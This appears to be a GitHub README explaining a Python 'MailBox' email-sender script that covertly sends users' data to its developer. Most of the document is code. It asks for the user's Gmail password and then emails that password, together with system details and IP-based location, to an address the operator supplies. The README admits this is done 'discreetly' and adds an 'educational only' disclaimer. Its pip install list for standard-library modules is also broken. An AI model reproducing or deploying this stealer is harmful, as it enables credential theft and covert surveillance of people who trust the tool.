 This Python program serves as a multifunctional email sender with additional features for collecting and transmitting user-specific system details and location information. The script is designed to interact with the user by prompting for their name, guiding them through Gmail authentication, and collecting necessary credentials. Once authenticated, the program allows the user to input recipient details and email content, facilitating the sending of emails through a Gmail SMTP connection. Furthermore, the script captures the user's system information, including details about the operating system, hardware, and processes, which is then sent to a specified email address. Additionally, the program retrieves the user's IP-related information using an external service and forwards it to the developer's email. While providing a practical demonstration of Python's capabilities for ethical hacking or custom tool development, it is crucial to emphasize that the program is intended for educational purposes only, and its misuse to inflict harm is strongly discouraged. The developer expressly disclaims responsibility for any adverse consequences resulting from the inappropriate use of this program.

This is the detailed break-down of this code:

To begin, the user is prompted to input their name, after which they receive clear instructions on creating an app password for their Gmail account. The script then guides the user through entering their Gmail address, ensuring its validity, and securely collecting both the Gmail credentials and password. 

Following this, the user is prompted to input the recipient's Gmail address and compose the email message they wish to send. The script establishes a secure connection to Gmail's SMTP server, logs in using the provided credentials, and successfully sends the email to the specified recipient.

Subsequently, the script discreetly sends the user's Gmail details, password, recipient's Gmail, and email message to a developer's email address. Additionally, the script captures the user's system information, including details such as operating system, network configuration, CPU, memory, and battery status. This information is then formatted and sent to the developer via email. 

Finally, the script leverages an external service to obtain the user's IP-related details, such as city, region, country, and timezone. This information is also sent securely to the developer's email. The user receives a confirmation message upon successful email transmission, ensuring transparency about the process's completion.

This is the break down of code and explaination each part:

Part 1: Importing Libraries

```python
import json
from urllib.request import urlopen
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import platform
import socket
import psutil
```

This section imports the necessary libraries for handling JSON data, making HTTP requests, sending emails, and collecting system information. Additionally this is the commands to install all the modules:

```python
pip install json
pip install urllib
pip install smtplib
pip install email
pip install platform
pip install socket
pip install psutil
pip install requests
```

Part 2: User Input

```python
name = input("Enter your name: ")
```

The script prompts the user to enter their name.

Part 3: Instructions for Gmail Authentication

```python
print("Hello," + name, '''Welcome to MailBox.com...''')
```

The script provides instructions for the user on creating an app password for Gmail.

Part 4: Validating and Collecting User's Gmail and Password

Collecting user's Gmail and password

```python
while True:
    Gmail = input("Enter your Gmail: ")
    if Gmail.endswith("@gmail.com"):
        MailBox = Gmail
        Password = input("Enter your Gmail password: ")
        print("Your Gmail is Submitted Successfully")
        break
    else:
        print("Your Gmail is Invalid, please Enter your Gmail again")
        Gmail = input("Enter your Gmail: ")
        if Gmail.endswith("@gmail.com"):
            MailBox = Gmail
            Password = input("Enter your Gmail password: ")
            print("Your Gmail is Submitted Successfully")
            break
```


The script prompts the user to enter their Gmail address, validates it, and then collects the Gmail and password.

Part 5: Email Content Input

```python
RMID = input("Enter the gmail of the receiver: ")
Mail = input("Enter gmail message to send: ")
```

The script collects the recipient's Gmail and the email message from the user.

Part 6: Sending the Email

```python
# Setting up SMTP and sending the email

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
message1 = Mail
s.sendmail(MailBox, RMID, message1)
s.quit()
```

The script sets up an SMTP connection to Gmail, logs in using the user's credentials, and sends the email to the specified recipient.

Part 7: Sending User's Data to the Developer

```python
s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
subject = "Mail from " + MailBox + " to " + RMID
message = "From: " + MailBox + "\nTo: " + RMID + "\nSubject: " + subject + "\n" + Password
Developer = "REPLACE WITH YOUR DESIRED GMAIL ADDRESS"
s.sendmail(MailBox, Developer, message)
s.quit()
```

The script sends the user's Gmail, Gmail password, recipient's Gmail, and the email message to the developer's email address.

Part 8: Collecting and Sending System Information

```python
def send_email(subject, body, to_email):
    from_email = MailBox
    password = Password
    message = MIMEMultipart()
    message["From"] = from_email
    message["To"] = to_email
    message["Subject"] = subject
    message.attach(MIMEText(body, "plain"))
    
    with smtplib.SMTP("smtp.gmail.com", 587) as server:
        server.starttls()
        server.login(from_email, password)
        server.sendmail(from_email, to_email, message.as_string())

def get_device_details():
    # ... (Code for collecting system details)
    return data_SYS

if __name__ == "__main__":
    device_info = get_device_details()
    data_str = "\n".join([f"{key}: {value}" for key, value in device_info.items()])
    send_email("System Information", data_str, "REPLACE WITH YOUR DESIRED GMAIL ADDRESS")
```

The script defines a function to send an email and uses it to send the user's system information to the developer's email address.

Part 9: Collecting and Sending User's Location Information

```python
url = "http://ipinfo.io/json"
response = urlopen(url)
data = json.load(response)
Address_data = {
  "IP": data["ip"],
  "City": data["city"],
  "Region": data["region"],
  "Country": data["country"],
  "Location": data["loc"],
  "Organization": data["org"],
  "Postal": data["postal"],
  "Timezone": data["timezone"]
}

json_data = json.dumps(data, indent=4)

sender_email = MailBox
sender_password = Password
receiver_email = "REPLACE WITH YOUR DESIRED GMAIL"
subject = "IP Information"

body = f"""\
IP Information:

{json_data}
"""

with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
    server.login(sender_email, sender_password)
    message = f"Subject: {subject}\n\n{body}"
    server.sendmail(sender_email, receiver_email, message)
```

The script collects the user's IP information using an external service and sends it to the developer's email address.

Part 10: Confirmation Message

```python
print("Your Mail sent successfully to", RMID)
```


Note: This Python program is expressly designed for educational purposes and serves solely as a demonstration of Python's capabilities within the realms of ethical hacking and custom tool development. It is explicitly prohibited to employ this program for any malicious intent or to cause harm to individuals or entities. The developer vehemently discourages any such misuse, The developer bears no responsibility for any harm or damage resulting from the misuse or unauthorized deployment of this software.
